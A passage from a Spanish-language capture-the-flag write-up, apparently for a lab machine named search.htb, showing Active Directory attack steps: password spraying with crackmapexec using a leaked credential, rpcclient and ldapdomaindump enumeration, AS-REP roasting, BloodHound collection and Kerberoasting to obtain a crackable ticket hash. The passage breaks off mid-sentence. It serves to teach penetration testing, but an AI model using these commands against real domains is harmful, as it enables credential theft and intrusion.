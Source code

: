 Podemos intentar un ataque de fuerza bruta con el posible username *hope sharp* y la respectiva contraseña *IsolationIsKey?*  con crackmapexec de la siguiente forma:

	~sexcott> crackmapexec smb -u user.txt -p <password>

Ahora que tenemos credenciales validas podemos intentar enumerar el sistema con **rpcclient** de la siguiente manera:

	~sexcott> rpcclient -U "usuario%password" ip

Para enumerar los usuarios validos a nivel de dominio podemos usar:

	rcpclient $> enumdomusers

Podemos jugar con expresión regular para quedarnos únicamente con los usuarios y eliminar toda la basura:

	grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' | sort -u > users.txt


Podemos intentar efectuar un **ASLPROAST ATTACK** ya que tenemos un listado potencial de usuarios:

	~sexcott> GetNPUsers.py search.htb/ -no-pass -userfile users.txt

pero ningún usuario parece tener el **UF_DONT_PREAUTH** activado.

------------
####  Ldap Enumeration (ldapdomaindump)  

Podemos intentar utilizar **ldapdomaindump** para dumpear algunas cosas del servidor y ver las cosas mucho mas claras desde un formato comodo. La forma de hacerlo es la siguiente:

	~sexcott> ldapdomaindump -u 'search.htb\hope.sharp' -p 'password' <ip>

Una vez con los archivos en nuestro equipo, podemos montarnos un servidor en **PHP** y mirar los archivos.

#### Bloodhound Enumeration 

Tiramos de la herramienta **bloodhound.py** para dumpear los respectivos archivos que usaremos posteriormente en el *GUI* de **BloodHound**. Podemos ejecutar la siguiente sentencia para hacerlo:

	~sexcott> python3 bloodhound.py -u 'usuario' -p 'password' -ns <IP> -d <domain-name> -c ALL

Este comando nos va a generar archivos *.json* que tenemos que subir posteriormente al **BloodHound**

#### Kerberoasting Attack (GetUserSPNs.py)  

A través de **bloodhound** podemos observar que existe un usuario kerberoasteable y como contamos con credenciales validas, podemos intentar de nuevo el kerberoasting attack:

	~sexcott> GetUserSPNs.py search.htb/hope.sharp

Y nos pedirá la contraseña, se la colocamos y nos mostrara el usuario kerberoasteable. Para solicitar el **Ticker Garanting Service** podemos hacerlo de la siguiente forma:

	~sexcott> GetUserSPNs.py search/hope.sharp -request

Esto nos dará un hash que podremos crackear de manera offline con algún diccionario. Antes de intentar crackearlo, tenemos que tener en cuenta de nuestra hora en la computadora tiene que ser la misma que la maquina victima. Eso lo podemos hacer fácilmente con **ntpdate**:
